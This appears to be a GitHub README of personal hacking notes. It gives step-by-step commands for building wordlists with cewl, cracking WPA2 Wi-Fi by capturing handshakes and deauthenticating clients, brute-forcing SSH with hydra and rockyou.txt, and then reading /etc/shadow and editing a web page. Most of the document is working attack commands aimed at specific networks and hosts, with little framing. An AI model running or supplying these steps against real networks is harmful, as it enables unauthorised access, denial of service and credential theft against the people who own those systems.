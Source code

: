 ## Wordlist Crawler 

- sudo apt install cewl

- `cewl -d 1 -m 8 -w wordlist-d1m8-samecase.txt https://avengers.marvelhq.com/`
- `cewl -d 1 -m 8 -w wordlist-d1m8-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 2 -m 8 -w wordlist-d2m8-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 1 -m 1 -w wordlist-d1m1-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 1 -m 1 -w wordlist-d1m1-samecase.txt https://avengers.marvelhq.com/`
- `cewl -d 2 -m 1 -w wordlistd2m1-d2m1-lowercase.txt https://avengers.marvelhq.com/ --lowercase`

```sh
curl "https://avengers.marvelhq.com/" | sed 's/[^a-zA-Z ]/ /g' | tr 'A-Z ' 'a-z\n' | grep '[a-z]' | sort -u > wordlist.txt
``` 

## WPA2 Brute Force 

- The shortest password allowed with WPA2 is 8 characters long
- sudo su 
- echo <password> | sudo -S <command>

### Start and Check Wifi Adapter Monitor Mode

- iwconfig

- airmon-ng check kill
- airmon-ng
- airmon-ng start wlan0

### Attack 1 (Moodle)

1. airmon-ng

2. macchanger --mac 00:11:22:33:44:55 wlan0

3. macchanger -s wlan0  (60:a4:b7:22:74:9f)

4. airmon-ng start wlan0

5. airodump-ng wlan0

to retrieve bssid mac and chanel

6. airodump-ng -c 1 -w file --bssid 48:29:52:46:92:CB wlan0

7. aireplay-ng --deauth 1 -a 48:29:52:46:92:CB -c 60:a4:b7:22:74:9f wlan0

8. aircrack-ng -w wordlist.txt file-01.cap


### Discover information about router

To retrieve MAC ADDRESS, CHANNEL and ESSID use:

- sudo airodump-ng wlan0
    - MA => 48:29:52:46:92:CB
    - CH => 1
    - ESSID => Casa_wifi

### Attack 2

1. To check station connected to the router:

- sudo airodump-ng -c 1 wlan0 -d 48:29:52:46:92:CB 
    -  Specify the channel to use aireplay correctly

2. Run this analyzes packets before deauth everyone to writes handshake to a file:

- sudo airodump-ng -w hacktest -c 1 --bssid 48:29:52:46:92:CB wlan0

3. To forces deauth everyone:

- sudo aireplay-ng --deauth 0 -a 48:29:52:46:92:CB wlan0

4. Uses the hack01-01.cap to analyze in wireshark: search for ***eapol** which is the handshake protocol used to auth

5. Check for the second message of the handshake in:
    - 802.1X authentication
    - WPA KEY DATA: 30140100000fac040100000fac040100000fac020c00
    - the handshake packets is needed to step 6 can try a bunch of random passwords...

- :warning: we can skip the step 4 e 5 above and just try the step 6 and with lucky it works :warning: 

6. sudo aircrack-ng hack-01.cap -w wordlist.txt
    - and the outputs should appear !!!
    - sudo aircrack-ng hack01-01.cap -w /usr/share/wordlists/rockyou.txt

## SSH Brute Force

- systemctl start ssh.socket
- systemctl stop ssh.socket

- sudo airmon-ng stop wlan0
- sudo service NetworkManager restart
- iwconfig

- ifconfig
- sudo nmap -sP 192.168.15.0/24
- sudo nmap -sP 192.168.15.0/24 -p 80,22

----- 
- sudo nmap 192.168.0.* -p ssh --open


- sudo nmap 192.168.15.* --open
-----

- ssh user@ipaddress

- hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.15.1 -t 4 ssh

- hydra -L /usr/share/wordlists.rockyou.txt -P /usr/share/wordlists/rockyou.txt -M Documents/ip.txt -t 4 ssh

-L list of users
-M list of ips

### Final Steps

- sudo vim /var/www/html/index.html
- 
- ls -l /etc/passwd => to see owner, first column name
- cat /etc/passwd => users
- cat /etc/shadow => users and password hash


### Helix Fingerprint

```
Port         Transport             Protocol 

22              TCP            SSH 
5000            TCP            Helix Web Interface
3030            TCP            Helix Orchestrator
22443           TCP            Helix Hardware Monitor
1026            TCP            CEF Context Broker 
27000           TCP            MongoDB 
5050            TCP            Cygnus
1883            TCP            Eclipse-Mosquitto
4041            TCP            IoT Agent MQTT 
```